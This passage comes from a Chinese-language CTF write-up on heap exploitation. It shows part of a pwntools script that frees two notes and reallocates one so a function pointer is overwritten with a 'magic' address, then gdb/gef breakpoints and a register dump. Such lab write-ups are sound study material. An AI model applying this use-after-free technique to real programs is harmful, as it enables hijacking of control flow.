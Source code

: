 ```python
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```

我们可以具体看一下执行的流程，首先先下断点

**两处malloc下断点**

```shell
gef➤  b *0x0804875C
Breakpoint 1 at 0x804875c
gef➤  b *0x080486CA
Breakpoint 2 at 0x80486ca
```

**两处free下断点**

```shell
gef➤  b *0x08048893
Breakpoint 3 at 0x8048893
gef➤  b *0x080488A9
Breakpoint 4 at 0x80488a9
```

然后继续执行程序，可以看出申请note0时，所申请到的内存块地址为0x0804b008。（eax存储函数返回值）

```asm
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x00000000
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x080486cf  →  <add_note+89> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
    0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
    0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
 →  0x80486cf <add_note+89>    add    esp, 0x10
```